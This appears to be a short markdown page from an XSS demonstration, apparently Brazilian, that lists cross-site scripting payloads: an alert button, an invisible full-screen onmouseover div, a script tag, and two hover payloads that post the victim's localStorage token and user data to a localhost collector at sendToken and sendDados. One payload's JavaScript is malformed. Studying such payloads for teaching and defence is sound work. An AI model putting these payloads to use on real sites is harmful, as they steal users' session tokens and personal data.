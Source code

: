 
# Button
`<button onclick="Alert Hackeado">Click me</button>`

# On mouse over
`<div onmouseover="alert('injetado!')" style="width:100vw; height: 100vh; color:transparent"> </div>`

# Script
`<script>alert('123')</script>`
 
# Request HTTP
`<div onmouseover="axios.post('http://localhost:9000/sendToken', {}, {headers:{Authorization:localStorage['token']} }).then((result)=>{})" style="width:100vw; height: 100vh; color:transparent"></div>`


`<div onmouseover="axios.post('http://localhost:9000/sendDados', {}, {headers: 'Content-Type': 'application/json',},body:JSON.stringify(user),}).then((result)=>{});"style="width:100vw; height: 100vh; color:transparent"></div>`








